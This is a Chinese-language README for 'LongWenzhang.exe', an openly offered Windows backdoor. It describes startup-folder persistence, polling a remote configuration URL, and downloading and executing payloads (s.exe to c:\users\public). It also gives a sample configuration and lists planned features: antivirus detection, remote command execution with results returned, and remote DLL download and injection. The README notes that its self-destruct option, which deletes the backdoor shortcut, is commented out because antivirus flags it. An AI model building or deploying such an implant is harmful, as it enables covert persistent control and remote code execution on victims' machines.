

# 龙文章

> 炮灰团团长 <我的团长我的团>



- 使用方式

```
LongWenzhang.exe 快捷方式名 配置文件地址
LongWenzhang.exe aaa http://127.0.0.1/1.txt
```
## 功能

### 权限维持 (已实现)

- 启动目录

    > 制作本身的快捷方式放入启动目录

### 信息收集 (未实现)

- 杀软检测

### 任务模块 (已实现)
- 文件下载
  
## 配置文件内容
- http://127.0.0.1/s.txt

```
//获取任务间隔时间(分钟) 默认:30
Sleep = 30
//是否退出程序
Exit = false || true
//毁灭,退出程序并删除快捷方式后门,杀软报毒,代码注释掉了
Destruction = false || true
//配置文件的网络路径
InfoUrl = 

# 文件下载模块
[DownLoad]
//下载文件的地址
url = http://127.0.0.1/s.exe
//下载的文件是否运行
execute = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径
path = c:\users\public\1.exe


# 以下为计划实现的功能
//获取任务时候发送http请求的各种请求头
[http]

//执行的命令,并将命令结果返回,需要配置服务端接收消息/文件
[callback]
command = 
back = 

//下载远程dll文件并注入
[DLL]
//下载文件的地址
url = http://127.0.0.1/s.dll
//下载的文件是否注入
injection = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径
path = c:\users\public\1.exe
```


